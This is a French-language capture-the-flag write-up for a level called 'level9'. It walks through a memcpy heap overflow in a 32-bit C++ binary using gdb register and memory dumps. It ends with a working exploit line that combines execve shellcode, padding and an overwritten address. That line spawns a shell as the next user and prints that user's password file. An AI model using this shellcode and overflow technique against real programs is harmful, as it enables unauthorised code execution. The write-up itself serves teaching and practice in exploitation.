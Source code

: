# Level 9

Quand on lance `level9` avec gdb et qu'on décompile, on peut voir que le programme est écrit en C++.  Ça peut aussi se vérifier avec `objdump -T level9` : on trouvera la librairie standard C++ (`GLIBCXX_3.4`) en plus de la librairie standard C (`GLIBC_2.0`).  

Le programme prend `argv[1]` et le `memcpy` et nous pouvons voir que ça segfault à partir de 108 caractères. Le crash se produit à l'adresse `0x08048682`, ce qui correspond à la ligne `0x08048682 <+142>:	mov    (%eax),%edx` (juste après l'appel à `setAnnotation`), au transfert du contenu du registre `eax` vers `edx`. Quelques lignes plus loin (`main<+159>`), on a une instruction `call edx`.  
Si nous écrivons `"B"*112,` l'adresse du registre `eax` au moment du segfault sera `0x42424242` ; idem pour le registre `ecx`. On a donc la main sur `eax` et `ecx`, et potentiellement sur `edx` si l'on parvient à lui transmettre un pointeur valide. Cela nous permettrait de *jump* où nous voulons.

Notre but est donc d'écrire le *shellcode*, ajouter le *padding* nécessaire, et *jump* à l'adresse du `memcpy` pour exécuter le *shellcode*.  

```shell
~ gdb level9
(gdb) r $(python -c 'print "B"*112')
Starting program: /home/user/level9/level9 $(python -c 'print "B"*112')
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers
eax            0x42424242	1111638594
ecx            0x42424242	1111638594
[...]
(gdb) x/24xw $eip
[...]
0x804a002:	0x00710000	0x88480000	0x42420804	0x42424242
0x804a012:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a022:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a032:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a042:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a052:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a062:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a072:	0x42424242	0x42424242	0x00004242	0x00000000
[...]
(gdb) r $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "B"*84 + "\x0c\xa0\x04\x08"')
Program received signal SIGSEGV, Segmentation fault.
0x6850c031 in ?? ()
(gdb) info registers
eax            0x804a078	134520952
ecx            0x804a00c	134520844
[...]
(gdb) x/24xw 0x0804a008
0x804a008:	0x08048848	0x6850c031	0x68732f6e	0x622f2f68
0x804a018:	0x99e38969	0xe1895352	0x80cd0bb0	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a058:	0x42424242	0x42424242	0x42424242	0x42424242
(gdb)
0x804a068:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) quit
~ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "B"*80 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```